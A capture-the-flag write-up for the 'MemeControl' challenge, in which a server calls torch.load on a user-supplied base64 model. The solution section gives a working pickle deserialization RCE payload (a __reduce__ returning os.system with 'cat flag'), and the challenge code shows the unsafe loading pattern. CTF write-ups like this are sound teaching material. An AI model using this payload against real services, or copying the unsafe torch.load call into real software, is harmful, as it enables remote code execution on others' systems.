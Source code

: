 # MemeControl
> Internet memes are getting out of control! Submit a pytorch model that catches illegal memes to earn a flag

## About the Challenge
We were given a zip file (You can download the file [here](memecontrol.tgz)). And if you extract the zip file, there is a python code. Here is the content of the source code

```python
import io
import torch
import base64

banner = \
'''
8""8""8                   8""""8                                      
8  8  8 eeee eeeeeee eeee 8    " eeeee eeeee eeeee eeeee  eeeee e     
8e 8  8 8    8  8  8 8    8e     8  88 8   8   8   8   8  8  88 8     
88 8  8 8eee 8e 8  8 8eee 88     8   8 8e  8   8e  8eee8e 8   8 8e    
88 8  8 88   88 8  8 88   88   e 8   8 88  8   88  88   8 8   8 88    
88 8  8 88ee 88 8  8 88ee 88eee8 8eee8 88  8   88  88   8 8eee8 88eee 
'''

try: 
    print(banner)
    base64_string = input("Send the base64 encoded model: ")
    bytes_data = base64.b64decode(base64_string)

    print("Evaluating the model ...")
    device = torch.device("cpu")
    model = torch.load(io.BytesIO(bytes_data), map_location=device)
    model.eval()
    print("Finished evaluating the model!")
except Exception as e:
    print(f"Ooops, this model is no good: {e}".format(e))
```

This Python code loads a PyTorch model that has been encoded in base64 format. It starts by printing a banner, which is just a string that contains some ASCII art. Then, it reads a base64-encoded model from standard input and decodes it using the `base64.b64decode()` function. The resulting byte string is then used to load a PyTorch model using the `torch.load()` function. The `map_location` argument is set to cpu, which means that the model is loaded onto the CPU device. Finally, the loaded model is set to evaluation mode using the `model.eval()` function.

## How to Solve?
To solve this, i searched about torch vulnerability and I found this [PyTorch issue](https://github.com/pytorch/pytorch/issues/52596) on GitHub. So I tried to use [Python Pickle RCE](https://exploit-notes.hdks.org/exploit/web/framework/python/python-pickle-rce/) payload, and here is the payload I used to solve the chall

```python
import pickle
import base64
import os

class RCE:
    def __reduce__(self):
        cmd = ('cat flag')
        return os.system, (cmd,)

if __name__ == '__main__':
    pickled = pickle.dumps(RCE())
    print(base64.urlsafe_b64encode(pickled))
```

So, you need to run the code first to get the base64 payload, and then input the payload on the server to obtain the flag

![flag](images/flag.png)

```
midnight{backd00r5_ar3_c00l_wh3n_th3Y_ar3_yoUR5}
```
